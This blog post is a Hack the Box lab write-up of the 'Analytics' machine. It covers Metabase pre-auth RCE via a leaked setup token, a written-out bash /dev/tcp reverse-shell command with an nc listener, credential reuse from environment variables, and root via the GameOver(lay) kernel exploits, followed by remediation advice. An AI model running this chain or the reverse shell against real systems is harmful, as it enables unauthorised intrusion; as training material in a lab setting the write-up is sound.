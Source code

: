 ```yaml
---
draft: false

title: 'Hack the Box #1 - Analytics without Metasploit'
date: '2024-03-06T17:27:24+00:00'
author: William

category:
    - Hacking

tag:
    - Hacking
cover:
    image: thoughts/hacking/hack_the_box_1_analytics.png
    alt: 'hack_the_box_1_analytics.png'
---
```

This is my first Hack the Box machine [pwned](https://www.hackthebox.com/achievement/machine/1695260/569) and it’s called Analytics. Here is a mock write-up of the lab because as we all know. It’s great being able to pwn things but if we can’t communicate the remediations to what we have done then there is no benifit past that juicy dopamine hit when you get root 😀

#### Executive summary

The attacker achieved an initial foothold by abusing a pre-authentication remote code execution exploit to achieve a reverse shell. User credentials we then found in the environment variables and used to establish a user shell. This can be prevented by upgrading Metabase to the latest version and removing the environment variables with user account details if possible as a secondary objective.

Privilege was then escalated by using 2 kernel exploits from 2023 chained together. These can be remedied by upgrading our kernel version.  
The general recommendation is to update the software mentioned to later versions.

#### Technical Findings

Starting as per with a good old Nmap

![](https://i0.wp.com/i.imgur.com/D6fORW7.png?resize=798%2C212&ssl=1)

Nothing of too much interest, let’s take a closer look at the website.

For this will need to put <http://analytical.htb/> in my hosts file and run this puppy through Burp suite

There isnt much here but the login reroutes us to <http://data.analytical.htb/>. Adding that to our hosts file gets us this lovely Metabase login screen

![](https://i0.wp.com/i.imgur.com/OaJ9aIR.png?resize=504%2C552&ssl=1)

Lets dive into Metabase. There are default credentials available but those dont work. Looking for explicit exploits on the internet we find this [lovely git repo](https://github.com/Pyr0sec/CVE-2023-38646).

It allows for pre-auth remote code execution, this is exactly what we want. For this we need the setup token that can be found at the path `/api/session/properties`

Hitting this endpoint gets us a wonderful .json properties file. And within it we find the value of `setup-token` required for the execution of the exploit

![](https://i0.wp.com/i.imgur.com/xVUvF7H.png?resize=1048%2C669&ssl=1)

Using this wonderful script combined with the token we can initialize a reverse shell using the following command, oh and also don’t forget the listener on the other side:

`bash -i >& /dev/tcp/10.10.14.26/4444 0>&1<br></br>nc -nvlp 4444`

![](https://i0.wp.com/i.imgur.com/HrFdCZ7.png?resize=1136%2C160&ssl=1)

The server returns an error message but we got the juicy juicy shell

![](https://i0.wp.com/i.imgur.com/jmRtvHp.png?resize=537%2C183&ssl=1)

But sadly there is no flag in `/home/metabase` and mind you we are looking for both a user flag and a root flag… So is this not the user we are meant to be???

After a little digging around on this box for longer than I care to admit… I enumerated everything from cron jobs, running processes, kernel versions, installed apps, and much more looking for either user credentials or a route to escalate my privilage. I looked where I should have looked almost right away `env`

![](https://i0.wp.com/i.imgur.com/S6NJTdc.png?resize=559%2C290&ssl=1)

And there is the puppy. META\_USER and META\_PASS. Now could these be used to log in to the open SSH port on 22?

![](https://i0.wp.com/i.imgur.com/GTjtfdt.png?resize=652%2C152&ssl=1)

And it works! With our lovely user flag right there.

![](https://i0.wp.com/i.imgur.com/woWFcy3.png?resize=711%2C38&ssl=1)

Now to get root. I came back to this bad boy while working in a coffee shop and used the pwnbox provided by Hack the Box as my attack box. Let’s see what we can do.

There are several things I tried to look through. What binaries run within the admin context? Nope… Perhaps some cron jobs? Nope

Well what is the kernel and OS we are running on?

![](https://i0.wp.com/i.imgur.com/JLwNR2a.png?resize=799%2C70&ssl=1)

After a Google search for **linux 6.2.0-25-generic 22.04.2-ubuntu privilege escalation**, we found an interesting privilege escalation exploit called **GameOver(lay)** here is a link to a [POC on Github](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

The script is a massive one-liner so let’s copy that bad boy onto our target machine and give it execute permissions

![](https://i0.wp.com/i.imgur.com/UlR3Ri3.png?resize=822%2C353&ssl=1)

This exploit makes use of two seperate vulnerabilities namely [**CVE-2023-2640**](https://www.cvedetails.com/cve/CVE-2023-2640/) and [**CVE-2023-32629**](https://www.cvedetails.com/cve/CVE-2023-32629/). Lets execute this bad boy!

![](https://i0.wp.com/i.imgur.com/emOZ2X4.png?resize=741%2C112&ssl=1)

ROOT BABY!!! and we find a beautiful flag right where we want her!

![](https://i0.wp.com/i.imgur.com/TaAKD3d.png?resize=601%2C47&ssl=1)

#### Conclusion

Both the exploitation of the Metabase and Kernel exploits can be solved with simply updating the respective software and operating system.

This was a fun lab and dont worry there are plenty more to come. Oh and if you have read this far… Go touch some grass 😀